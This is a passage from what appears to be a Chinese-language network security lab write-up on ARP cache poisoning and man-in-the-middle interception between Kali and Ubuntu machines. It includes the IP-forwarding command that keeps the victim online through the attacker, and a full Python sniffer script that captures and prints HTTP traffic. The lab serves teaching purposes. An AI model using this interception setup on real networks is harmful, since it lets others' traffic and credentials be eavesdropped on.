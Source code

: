 运行这段代码

![arp.py](https://github.com/DBullet/UCore/blob/master/lab5/image002.png)

很快就可以看到Ubuntu的arp缓存已经被毒害

![arp](https://github.com/DBullet/UCore/blob/master/lab5/boot/image002.png)

这时候Ubuntu无法访问外网

![fail](https://github.com/DBullet/UCore/blob/master/lab5/boot/image003.png)

为了让Ubuntu能访问外网，需要在Kali上开启IP转发，即将Ubuntu发给网关的数据转发给网关，同时将网关发回给Ubuntu的数据转发给Ubuntu，开启转发的命令为`sysctl net.ipv4.ip_forward=1`，这样Ubuntu就又能上网了。这时候Kali就成为了Ubuntu和网关之间通信的中间人，而中间人可以做什么的实验放在下一部分。

![ip-forward](https://github.com/DBullet/UCore/blob/master/lab5/image003.png)
![ok](https://github.com/DBullet/UCore/blob/master/lab5/boot/image004.png)

### 2. 中间人攻击--信息窃听与篡改
在上一部分实验中，通过arp欺骗，Kali成为了Ubuntu和网关之间通信的中间人，作为中间人Kali便能够对通信双方之间的信息进行窃听和篡改。

首先通过一个简单的实验来窃听Ubuntu发向网关的请求。因为Ubuntu发给网关的请求都是经过Kali中间人代为转发，所以Kali只需要抓取通过自身的数据包就能够窃听Ubuntu发出的请求。直接使用抓包软件就能够完成窃听，如果要对数据做精确的过滤和提取则可以使用python脚本。

这里使用python的抓包工具包pcap和解析数据包工具包dpkt来将http请求直接打印出来，如果要过滤更多的请求信息，利用python的正则表达式等工具对数据直接处理即可。

由于Kali上自带了很多依赖工具，如果在其他平台上进行实验可能还需要安装更多的依赖，在Kali下安装工具包的命令为：
```
sudo apt-get install libpcap-dev
pip install pypcap
pip install dpkt
```
抓包的脚本：./codes/arp-mitm/wiretap.py
```python
import pcap
import dpkt
import sys
from optparse import OptionParser

def get_interface():
    usage = 'Usage: [-i interface]'
    parser = OptionParser(usage)
    parser.add_option('-i', dest='interface', help='Specify an interface')
    (options, args) = parser.parse_args()
    if not options.interface:
        parser.print_help()
        sys.exit(0)
    return options.interface

def wiretap(interface):
    worker = pcap.pcap(interface)
    worker.setfilter('tcp port 443 or tcp port 80')
    for (ptime, pdate) in worker:
        packet = dpkt.ethernet.Ethernet(pdate)
        if packet.data.__class__.__name__ == 'IP' \
            and packet.data.data.__class__.__name__ == 'TCP' \
            and (packet.data.data.dport == 443 or packet.data.data.dport == 80):
            http_data = packet.data.data.data
            print http_data

if __name__ == '__main__':
    interface = get_interface()
    wiretap(interface)
```
运行这个脚本。

